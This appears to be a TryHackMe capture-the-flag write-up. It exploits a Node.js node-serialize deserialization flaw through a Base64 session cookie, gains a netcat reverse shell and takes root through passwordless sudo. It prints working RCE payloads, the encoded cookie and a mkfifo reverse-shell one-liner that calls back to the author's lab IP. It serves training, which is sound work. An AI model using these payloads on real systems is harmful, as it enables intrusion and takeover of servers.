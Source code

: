 **<p align="center">TryHackMe: Jax Sucks Alot.............</p>**
---

<p align="center">
  <img src="https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Jax-Sucks-Alot/Images/room%20icon.png" alt="image alt" width="180" />
</p>

[![Day 28 of 30 – Hack Documentation Challenge](https://img.shields.io/badge/Day%2028%20of%2030-Hack%20Documentation%20Challenge-crimson?style=for-the-badge&logo=tryhackme)](https://tryhackme.com)

“In JavaScript everything is a terrible mistake."

**Topic:** Web application pentesting

**Completed:** 8/12/2025

“We are Horror LLC, we specialize in horror, but one of the scarier aspects of our company is our front-end webserver. We can't launch our site in its current state and our level of concern regarding our cybersecurity is growing exponentially. We ask that you perform a thorough penetration test and try to compromise the root account. There are no rules for this engagement. Good luck!”

<p align="center">+++++++++</p>

Beginning with an `nmap -sV -sC` scan, I discovered two open TCP ports:
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http
```
Navigating to the HTTP service, I found a website named Horror LLC, featuring a simple input field for visitors to submit their email addresses to receive newsletters.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Jax-Sucks-Alot/Images/Screenshot%201.png)

Inspecting the webpage’s source code revealed an interesting snippet of Node.js JavaScript, potentially exploitable given the room’s hint:
“In JavaScript everything is a terrible mistake.”

The source included a script that set a cookie with a suspicious session value, and submitted the email via a POST request, suggesting some backend logic processing the input.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Jax-Sucks-Alot/Images/Screenshot%202.png)

To check for basic client-side vulnerabilities, I tested the email input field with a common XSS payload:
```
test@example.com"><script>alert('XSS')</script>
```

However, this did not trigger any popup alert or visible script execution, indicating that the input was likely sanitized or not directly rendered.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Jax-Sucks-Alot/Images/Screenshot%203.png)

Using Firefox’s developer tools, I further inspected the page’s behavior during form submission. After submitting a test email address, I monitored the Storage tab and noticed a cookie was set, containing a Base64-encoded JSON string.
This suggested that the application stored some session or user data client-side in an encoded cookie, likely for tracking newsletter signups or sessions.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Jax-Sucks-Alot/Images/Screenshot%204.png)

Noticing the cookie value was Base64 encoded, I decoded it using an online tool. The result was:
```
{"email":"tester@email.com"}
```
This confirmed that the user input was being serialized and stored in the cookie, suggesting that the server likely deserializes this data on the backend, a potential vulnerability point.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Jax-Sucks-Alot/Images/Screenshot%205.png)

To investigate further, I looked into Node.js deserialization exploits and found a payload example on Exploit-db:
```
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
```           

Although the original payload included additional code wrapping, I discovered that injecting the function directly into the `email` field was sufficient to trigger code execution. 

This is because the server deserializes the JSON stored in the cookie and specifically processes the `email` property, making extra wrapping unnecessary. Using this simpler form made the exploit more straightforward:

```
{"email":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 4 10.201.113.243')}()"
```

I replaced the `ls` command with a `ping` directed to my local machine to verify if the exploit could cause the server to initiate a callback.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Jax-Sucks-Alot/Images/Screenshot%206.png)

On my local machine, I set up a `tcpdump` listener to capture ICMP ping requests by running:
```
sudo tcpdump -i eth0 icmp
```
This command listens on the `eth0` network interface and filters for ICMP packets, allowing me to observe incoming ping requests from the target server.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Jax-Sucks-Alot/Images/Screenshot%207.png)

Using the crafted exploit payload:
```
{"email":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 4 10.201.113.243')}()"
```

I encoded it using an online Base64 encoder, resulting in the following cookie value:
```
eyJlbWFpbCI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbiAoKXtyZXF1aXJlKFwnY2hpbGRfcHJvY2Vzc1wnKS5leGVjKCdwaW5nIC1jIDEwLjIwMS4xMTMuMjQzJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7IGNvbnNvbGUubG9nKHN0ZG91dCkgfSk7fSgpIn0=
```
I then replaced the cookie value with this string in the browser and refreshed the page. This successfully triggered ping requests to my local `tcpdump` listener, confirming the server executes the payload and the vulnerability is exploitable.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Jax-Sucks-Alot/Images/Screenshot%208.png)

Using and modifying the classic PentestMonkey Netcat reverse shell payload:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.201.113.243 4621 >/tmp/f
```
I set up a Netcat listener on my local machine, listening on port `4621`. I then incorporated this payload into my original exploit, Base64 encoded the entire JSON, and inserted it into the session cookie value field.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Jax-Sucks-Alot/Images/Screenshot%209.png)

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Jax-Sucks-Alot/Images/Screenshot%2010.png)

After refreshing the page to trigger the payload, I successfully received a reverse shell connection through the Netcat listener, landing me in the server’s `/opt/webapp` directory.
To stabilize the shell for easier interaction, I ran the following commands:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Jax-Sucks-Alot/Images/Screenshot%2011.png)

Running `sudo -l` revealed that the user had permission to run **all commands as root without a password**, opening the door to full control of the system!

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Jax-Sucks-Alot/Images/Screenshot%2012.png)

Next, I checked for user accounts on the system with home directories using:
```
cat /etc/passwd | grep “/home”
```
Finding three accounts, the `dylan` user stood out the most. With root access secured, accessing Dylan’s home directory and reading the `user.txt` flag, followed by the root flag, was easy!

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Jax-Sucks-Alot/Images/Screenshot%2013.png)

<p align="center">+</p>

**Lessons Learned**

This challenge was a solid demonstration of how powerful and dangerous deserialization vulnerabilities can be, especially in Node.js applications using `node-serialize`. Even something as simple as a cookie value can be exploited to gain full remote code execution if not properly validated.

It taught the importance of thoroughly inspecting client-side data handling and understanding the backend mechanisms involved. It was a great exercise in combining reconnaissance, creative payload crafting, and practical exploitation to achieve a full compromise.

I had fun learning something new!

<p align="center">+++++++++</p>

🔒 Out of respect for the learning experience, I’ve chosen not to share the flag answers directly. Instead, I’ve documented my full process to support both others and myself in understanding the vulnerability.

**Resources**:
- [TryHackMe's Jason Room](https://tryhackme.com/room/jason)
- [Node.js Explaination](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
- [Exploit-DB](https://www.exploit-db.com/exploits/45265)
- [Online Decoder](https://appdevtools.com/base64-encoder-decoder)
